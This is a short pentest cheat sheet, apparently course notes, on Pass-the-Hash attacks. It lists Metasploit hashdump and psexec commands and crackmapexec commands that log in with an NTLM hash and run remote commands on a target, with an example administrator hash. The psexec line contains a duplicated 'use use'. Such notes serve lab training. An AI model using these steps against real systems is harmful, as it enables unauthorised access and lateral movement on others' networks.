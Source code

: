 # Pass-The-Hash

* [Metasploit](#metasploit)
* [Crackmapexec](#crackmapexec)
* [References](#references)

***********************************************************************
Items inside [SQUARE-BRACKETS] indicate changeable (fill in the blank) fields.  
Note: Bracket characters themselves [ ] require removal. See examples.
***********************************************************************

## Metasploit

### Kiwi

```
hashdump
```

Format:  
[USERNAME]:[RID]:[LM-HASH]:[NTLM-HASH]:::  

Example:  
Administrator:500:aad3b435b51404eeaad3b435b51404ee:e3c61a68f1b89ee6c8ba9507378dc88d:::


*LM Hash is the same for every user, the NTLM hash is unique.*

### PSExec

```
search psexec
```
```
use use exploit/windows/smb/psexec
```
```
set SMBUser [USERNAME]
```
```
set SMBPass [LM-HASH]:[NTLM-HASH]
```
Example:
```
set SMBPass aad3b435b51404eeaad3b435b51404ee:e3c61a68f1b89ee6c8ba9507378dc88d
```
```
set target Native\ upload
```
*Target may not need to be set, or may need to be set to something else. Might have to try a few differnet targets to get this to work*
Set RHOSTS, LPORT, & possibly other options and exploit*

***********************************************************************

## Crackmapexec

Check for Pwnage:
```
crackmapexec smb [TARGET-IP] -u [USERNAME] -H "[NTLM-HASH]"
```
Example:
```
crackmapexec smb 10.3.31.187 -u Administrator -H "e3c61a68f1b89ee6c8ba9507378dc88d"
```

Once Pwn3d, issue commands like this:
```
crackmapexec smb [TARGET-IP] -u [USERNAME] -H "[NTLM-HASH]" -x "[COMMAND]"
```
*Ignore python script errors*

***********************************************************************

### References
Penetration Tester Student v2 by INE  
https://my.ine.com/CyberSecurity/learning-paths/61f88d91-79ff-4d8f-af68-873883dbbd8c/penetration-testing-student-v2
